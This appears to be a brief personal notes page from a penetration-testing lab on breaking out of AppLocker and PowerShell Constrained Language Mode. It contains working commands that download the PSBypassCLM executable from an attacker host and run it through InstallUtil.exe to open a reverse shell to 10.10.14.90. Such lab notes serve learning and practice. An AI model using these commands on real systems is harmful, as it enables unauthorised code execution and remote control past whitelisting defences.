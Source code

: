 ```bash
# Applocker break out
$executioncontext.sessionstate.languagemode

Get-AppLockerPolicy -Effective -XML
```

![image-20221218011511495](./images/image-20221218011511495.png)

![image-20221218011441551](./images/image-20221218011441551.png)



### PsBypassCLM

git, https://github.com/padovah4ck/PSByPassCLM

download psbypassclm.exe and upload.  Build local is better.

```bash
# PsBypassCLM
iwr -uri http://10.10.14.90/bypassclm/PSBypassCLM.exe -outfile psby.exe

C:\Windows\Microsoft.NET\Framework64\v4.0.30319\InstallUtil.exe /logfile= /LogToConsole=true /U /revshell=true /rhost=10.10.14.90 /rport=443 \users\amanda\temp\psby.exe
```



![image-20221217183623913](./images/image-20221217183623913.png)
